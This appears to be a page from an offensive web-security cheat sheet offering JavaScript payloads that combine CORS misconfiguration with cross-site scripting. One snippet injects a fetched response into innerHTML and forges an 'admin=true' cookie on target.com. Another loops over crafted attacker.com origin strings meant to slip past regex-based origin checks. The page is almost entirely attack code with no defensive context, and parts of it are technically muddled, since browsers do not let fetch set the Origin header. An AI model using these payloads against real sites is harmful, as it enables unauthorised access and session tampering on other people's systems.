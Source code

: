 
## XSS Combined Payloads

```javascript
// Combine CORS with XSS
fetch('https://target.com/vulnerable-endpoint', {
  headers: {
    'Origin': 'https://attacker.com',
    'X-XSS-Protection': '0'
  }
})
.then(response => response.text())
.then(data => {
  // If response is reflected without proper encoding
  document.getElementById('injection-point').innerHTML = data;
  
  // Now that we have XSS, we can do more damage
  document.cookie = 'admin=true; path=/; domain=target.com';
});
```

---

## Mitigation Bypass Payloads

```javascript
// Bypass regex-based origin validation
const bypassAttempts = [
  'https://target.com.attacker.com',
  'https://target.com%60.attacker.com',
  'https://target.com\\attacker.com',
  'https://target.com/.attacker.com',
  'https://target.com@attacker.com'
];

bypassAttempts.forEach(origin => {
  fetch('https://target.com/api/data', {
    headers: {
      'Origin': origin
    }
  })
  .then(response => {
    console.log(`Bypass attempt ${origin}:`, 
      response.headers.get('Access-Control-Allow-Origin'));
  });
});
```

